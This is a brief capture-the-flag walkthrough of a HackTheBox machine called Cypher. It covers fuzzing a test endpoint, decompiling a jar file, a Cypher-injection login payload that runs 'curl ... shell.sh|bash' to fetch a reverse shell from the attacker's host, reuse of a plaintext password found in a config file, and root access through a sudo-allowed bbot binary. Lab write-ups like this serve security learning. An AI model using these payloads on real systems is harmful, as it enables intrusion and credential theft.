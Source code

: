 Ports open: 22,80

80 has host name cypher.htb, so fill in /etc/hosts

Fuzzing helps us find a /testing endpoint containing a .jar file. Let's download it with curl and open it. I extracted it by copying it over to a .zip extension and unzipping it. Then I used ***jd-gui*** to read and decompile the .class files.

This reveals a custom Procedure, which I didnt know where to call
in the api/auth endpoint there is cypher injection, which we use this payload to get access (I used a writeup for this payload)

admin' return h.value AS value  UNION CALL custom.getUrlStatusCode(\"127.0.0.1;curl http://10.10.xx.xx/shell.sh|bash\") YIELD statusCode AS value  RETURN value ; //

shell.sh just contains a revshell payload, so first create shell.sh, start a http server on port 80, listener on port 4444 and then run this payload. Idk why this works so whatever tf.

Once we gain a shell, we login as neo4j. We can read /home/graphasm/bbot_preset.yml for creds.

`neo4j:cU4btyib.20xtCMCXkBmerhK`

Let's see where this leads us. I used this password to ssh in as the graphasm user.

Now we do sudo -l to find this,

```
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

Now this is a scanner, so I combed the internet for some privesc and came across this article thru some simple google dorking,
[article](https://www.linkedin.com/posts/neswinnigad_privilege-escalation-in-linux-via-bbot-binary-activity-7308872344649748480-O5tW)

Using the exploit here, I got root flag, you can even extract the ssh key if it strikes your fancy.
                                                                                                    
